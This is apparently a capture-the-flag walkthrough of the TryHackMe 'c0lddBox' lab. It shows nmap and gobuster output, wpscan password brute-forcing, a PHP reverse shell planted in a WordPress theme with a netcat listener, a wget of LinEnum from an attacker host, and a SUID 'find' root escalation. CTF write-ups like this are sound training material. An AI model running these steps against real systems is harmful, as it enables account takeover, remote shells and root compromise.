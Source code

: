 ```yaml
---
title: Try Hack Me - c0lddBox
date: 2021-02-06 16:32 +0300
categories: [Try Hack Me]
<! -- tags: [linux,wordpress]     # TAG names should always be lowercase -->
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- Wordpress Reverse Shell

# Nmap

Start scanning!

<pre class="highlighter-rouge highlight">
Nmap scan report for 10.10.132.4
Host is up (0.068s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/6%OT=80%CT=1%CU=36996%PV=Y%DS=2%DC=I%G=Y%TM=601EB318
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=104%TI=Z%CI=I%TS=8)OPS(O1=M5
OS:08ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O
OS:6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%D
OS:F=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0
OS:%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
OS:RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%I
OS:PL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
</pre>

From nmap we can see a Wordpress webpage. Let's check it.

# Gobuster

<pre>
gobuster dir -w /opt/directory-list-2.3-medium.txt -u http://10.10.132.4
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.132.4/
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
			Starting gobuster
===============================================================
/wp-content (Status: 301)
/wp-includes (Status: 301)
/wp-admin (Status: 301)
/hidden (Status: 301)
</pre>

I found hidden page <code class="language-plaintext highlighter-rouge">/hidden</code> and login page <code class="language-plaintext highlighter-rouge">/wp-admin</code>

# Web Page

If we open the hidden page <code class="language-plaintext highlighter-rouge">/hidden</code>, we will see

<img src="/assets/img/c0ldd_img/hidden.jpg">

So we found three username for bruteforcing - *c0ldd*, *hugo*, *philip*.


# Wpscan

Let's try to brute password(s).

<pre>
wpscan -U c0ldd,hugo,philip -P /opt/rockyou.txt --url http://10.10.132.4

[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / *****
</pre>

# Wordpress page

Here we will try to upload shell. You can find php shell on <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php">Pentestmokey - php reverse shell</a>

Upload it instead of *404.php*.

Turn on listener

<pre>nc -lvnp 1234</pre>

On the browser run the following URL

<pre>http://10.10.132.4/wordpress/wp-content/themes/twentyfifteen/404.php</pre>

And you will get the shell.

If you got stuck, come to this wonderful guide for more details -- <a href="https://www.hackingarticles.in/wordpress-reverse-shell/">WordPress: Reverse Shell</a>

# Improve our shell

Netcat has some problems. Sometims you will type wrong commands and to cancel you need to type <code class="language-plaintext highlighter-rouge">Ctrl + C</code>. And you will lose the connection. So to avoid that situation

<pre>
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
ssty raw -echo; fg
Press Enter
</pre>
And the shell won't disconnect.

# Privilage Escalation
Let's upload <code class="language-plaintext highlighter-rouge">LinEnum.sh</code> to find vulnerability.

We must run this script on victim machine. And our actions are:

Create a python server in the folder where we have our <code class="language-plaintext highlighter-rouge">LinEnum</code> script stored

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

Download the script on the victim machine

<pre>*VICTIM MACHINE* wget attacker_ip:8000/linenum.sh</pre>

Get the access permissions

<pre>
chmod +x linenum.sh
./linenum.sh</pre>

You know...The output was huge! It was so lot of details... I'll show you a part

<img src="/assets/img/c0ldd_img/linEnum.jpg">

Go to <a href="https://gtfobins.github.io/gtfobins/find/#suid">find|GTFOBins</a> to escalate.

And typed/copied following commands

<pre>
/usr/bin/find . -exec /bin/sh -p \; -quit
</pre>

Now you are root!

<pre>
cat /home/user.txt
</pre>

<img src="/assets/img/c0ldd_img/userflag.jpg">

<pre>
cat /root/root.txt
</pre>

<img src="/assets/img/c0ldd_img/rootflag.jpg">

# Userful for me references
<div><a href="https://www.hackingarticles.in/wordpress-reverse-shell/">WordPress: Reverse Shell</a></div>
<div><a href="https://gtfobins.github.io/gtfobins/find/#suid">find|GTFOBins</a></div>
